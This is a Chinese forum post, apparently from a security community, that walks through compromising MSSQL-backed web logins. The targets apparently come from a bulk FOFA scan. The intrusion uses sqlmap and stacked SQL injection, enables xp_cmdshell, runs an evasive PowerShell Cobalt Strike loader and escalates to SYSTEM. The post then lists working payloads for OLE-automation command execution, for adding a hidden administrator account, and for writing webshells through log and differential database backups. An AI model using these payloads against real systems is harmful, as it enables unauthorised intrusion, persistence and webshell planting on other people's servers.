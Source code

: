 本来对堆叠注入没啥了解，这次正巧碰到mssql的堆叠注入，正好加强一下对堆叠注入的理解。

#### 堆叠注入

因为在sql查询语句中， 分号“；”代表查询语句的结束。所以在执行sql语句结尾分号的后面，再加一条sql语句，就造成了堆叠注入。

这种情况很像联合查询，他们的区别就在于联合查询执行的语句是有限的，只能用来执行查询语句，而堆叠注入可以执行任意语句。

菜鸡不会审计php代码，这里就不贴sql语句的源码了。

下面是渗透流程  
先fofa批量找一下目标

[![](https://shs3.b.qianxin.com/attack_forum/2021/08/attach-75470b35a341eb46b9b61c404b6a9ebc89799c0a.png)](https://shs3.b.qianxin.com/attack_forum/2021/08/attach-75470b35a341eb46b9b61c404b6a9ebc89799c0a.png)

前台的页面 首先怼一波弱口令  
[![](https://shs3.b.qianxin.com/attack_forum/2021/08/attach-a5ea6d577559f748210b1ed08f3a4ac9c5ba6345.png)](https://shs3.b.qianxin.com/attack_forum/2021/08/attach-a5ea6d577559f748210b1ed08f3a4ac9c5ba6345.png)

其实有几个是可以弱口令直接进后台的，但是后台没有任何的getshell点

[![](https://shs3.b.qianxin.com/attack_forum/2021/08/attach-1dc473fece481496db2efcf7cb615661b757bbcd.png)](https://shs3.b.qianxin.com/attack_forum/2021/08/attach-1dc473fece481496db2efcf7cb615661b757bbcd.png)

那就只能在后台的登录窗口试一试有没有注入了，抓包测试一下  
[![](https://shs3.b.qianxin.com/attack_forum/2021/08/attach-43ca3feb1d6997bbb1e600d6d1b9983fd4f7f337.png)](https://shs3.b.qianxin.com/attack_forum/2021/08/attach-43ca3feb1d6997bbb1e600d6d1b9983fd4f7f337.png)

发现有注入点，直接上sqlmap一把梭  
直接出了mssql 数据库 而且是堆叠注入  
这里想直接 --os-shell，想起来堆叠注入后面的语句是没有回显的，再换个思路。

[![](https://shs3.b.qianxin.com/attack_forum/2021/08/attach-8d187383ccabff5d49b2127a4fcbd61e43edeec3.png)](https://shs3.b.qianxin.com/attack_forum/2021/08/attach-8d187383ccabff5d49b2127a4fcbd61e43edeec3.png)

ping 下dnslog 看看是否可以直接执行命令  
看来是可以执行命令的

[![](https://shs3.b.qianxin.com/attack_forum/2021/08/attach-bd806c3e255d40891e64933ffae2397f448a62ac.png)](https://shs3.b.qianxin.com/attack_forum/2021/08/attach-bd806c3e255d40891e64933ffae2397f448a62ac.png)  
再换个思路，尝试用xp\_cmdshell  
手工打开xp\_cmdshell ,发现函数没有被禁用 ,可以执行命令

```php
EXEC sp_configure 'show advanced options',1;
RECONFIGURE;
EXEC sp_configure 'xp_cmdshell',1;
RECONFIGURE;
```

尝试直接注入cs的powershell上线  
好家伙，直接上线 ，看来函数没有被禁用

```php
EXEC master..xp_cmdshell’免杀powershell命令’
```

[![](https://shs3.b.qianxin.com/attack_forum/2021/08/attach-63f33564350fed144fe65c4fb1f64e5d758242af.png)](https://shs3.b.qianxin.com/attack_forum/2021/08/attach-63f33564350fed144fe65c4fb1f64e5d758242af.png)

甜土豆提权到system  
[![](https://shs3.b.qianxin.com/attack_forum/2021/08/attach-5d3f68081bcc66e2254f034bbd5d483f3fd75569.png)](https://shs3.b.qianxin.com/attack_forum/2021/08/attach-5d3f68081bcc66e2254f034bbd5d483f3fd75569.png)

连xp\_cmdshell命令都没有禁用，想来也不会有什么杀软。  
首先看了一下进程，emmm 那么多powershell进程......没有啥玩的必要了。  
可以尝试溯源一波，下篇文章发。  
[![](https://shs3.b.qianxin.com/attack_forum/2021/08/attach-636cc8b2950ffa9d03ac6df407d43c67cc2c3315.png)](https://shs3.b.qianxin.com/attack_forum/2021/08/attach-636cc8b2950ffa9d03ac6df407d43c67cc2c3315.png)

也没有内网，收工。  
[![](https://shs3.b.qianxin.com/attack_forum/2021/08/attach-cd00f1aae98a6474431c3b4b505d3fb2525bb611.png)](https://shs3.b.qianxin.com/attack_forum/2021/08/attach-cd00f1aae98a6474431c3b4b505d3fb2525bb611.png)

### 总结

这里这么顺利是因为没有杀软，命令也都没有拦截禁用，下面说一下如果xp\_cmdshell如果被禁用该怎么办。

##### 1. sp\_configure函数

开启sp\_configure函数的命令

```php
EXEC sp_configure 'show advanced options', 1;  
RECONFIGURE WITH OVERRIDE;  
EXEC sp_configure 'Ole Automation Procedures', 1;  
RECONFIGURE WITH OVERRIDE;  
EXEC sp_configure 'show advanced options', 0;
```

执行系统命令 注意没有回显

下面的命令添加一个影子用户并加入管理员组

```php
declare @shell int exec sp_oacreate 'wscript.shell',@shell output exec sp_oamethod @shell,'run',null,'c:\windows\system32\cmd.exe /c net user hack$ 0r@nge /add';
declare @shell int exec sp_oacreate 'wscript.shell',@shell output exec sp_oamethod @shell,'run',null,'c:\windows\system32\cmd.exe /c net localgroup administrators 0r@nge$ /add';
```

还有其他的函数，这里就不一一列举了。

### 很多情况上面两个函数并不能执行(存在杀软)，mssql数据库可以用一下两个方法

##### 2.log备份写shell

##### 前提条件：

1.数据库存在注入

2.用户具有读写权限，一般至少DBO权限

3.有网站的具体路径

4.站库不分离

而且这种方法备份出的马子体积很小，备份成功的可能性很大。

##### 步骤：

1.修改数据库为还原模式(恢复模式)：

```php
;alter database 库名 set RECOVERY FULL –-
```

3.建表和字段

```php
;create table orange(a image)--
```

3.备份数据库

```php
;backup log 数据库名 to disk = ‘c:\www\0r@nge1.bak’ with init –
```

4.往表中写入一句话

```php
;insert into orange(a) values (0x...)--    //值要进行hex进制转换下
```

5.利用log备份到web的物理路径

```php
;backup log 数据库名 to disk = 'c:\www\0r@nge2.php' with init-- 
```

6.删除表

```php
;Drop table orange-- 
```

### 差异备份写shell

###### 概念：备份自上一次完全备份之后有变化的数据。差异备份过程中，只备份有标记的那些选中的文件和文件夹。它不清除标记，也即备份后不标记为已备份文件。换言之，不清除存档属性。

用人话说就是：第二次备份的时候，与上一次完全备份的时候作对比，把不同的内容备份下来，所以只要插入我们的一句话木马，再备份一下，一句话就会被写到数据库中。

##### 条件：

1. 有网站具体路径
2. 有可写权限(dbo权限以上)
3. 站库不分离

1.备份数据库

```php
;backup database 数据库名 to disk = 'C:\www\\...' with init --
```

2.创建表格

```php
%';create table orange(a image) --
```

3.写入webshell

```php
%';insert into orange(a) values (0xxxxx) --
```

4.进行差异备份

```php
%';backup log 数据库名 to disk = 'C:\www\orange.asp'  WITH DIFFERENTIAL,FORMAT;--
```

5.删除表

```php
;Drop table orange--
```

这些都是理论，实战中可能被各种过滤，还需要修改payload进行具体绕过。

ps：第一次发文章，有啥不对的师傅们可以指出来，一起学习(求轻喷)